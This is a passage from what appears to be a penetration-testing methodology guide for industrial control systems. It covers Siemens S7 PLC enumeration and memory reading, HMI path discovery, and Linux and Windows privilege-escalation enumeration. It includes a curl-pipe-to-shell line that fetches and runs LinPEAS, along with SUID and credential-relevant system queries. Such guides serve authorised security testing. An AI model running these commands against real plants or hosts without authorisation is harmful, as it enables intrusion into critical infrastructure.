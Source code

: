### 3.2 Siemens S7 Communication

**S7 Protocol Interaction**
```bash
# Reference: Scripts.md lines 744-785 for S7 communication scripts

# Basic S7 device enumeration
nmap --script s7-info -p 102 [S7_PLC_IP]

# Advanced S7 interaction (use with caution)
python3 Scripts/Python/s7_communication_tool.py --target [S7_PLC_IP] --read-memory
```

### 3.3 HMI System Penetration

**HMI Enumeration Script**
```python
# Reference: Exploits.md lines 106-147 for HMI enumeration
# Look for common HMI paths: /admin, /config, /setup, /diagnostics
# Check for vendor-specific indicators: wonderware, factorytalk, wincc
```

---

## 🔓 Phase 4: Privilege Escalation & Lateral Movement

*Reference: [`Scripts.md`](Scripts/Scripts.md) lines 369-480 - Privilege escalation techniques*

### 4.1 Linux Privilege Escalation

**Automated Enumeration**
```bash
# Download and run LinPEAS
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Manual enumeration
sudo -l
find / -perm -4000 -type f 2>/dev/null
cat /etc/crontab
```

### 4.2 Windows Privilege Escalation

**PowerShell Enumeration**
```powershell
# Reference: Scripts.md lines 438-479 for Windows enumeration

# System information
systeminfo
whoami /all
net localgroup administrators

# Service enumeration
wmic service list brief
schtasks /query /fo LIST /v
```
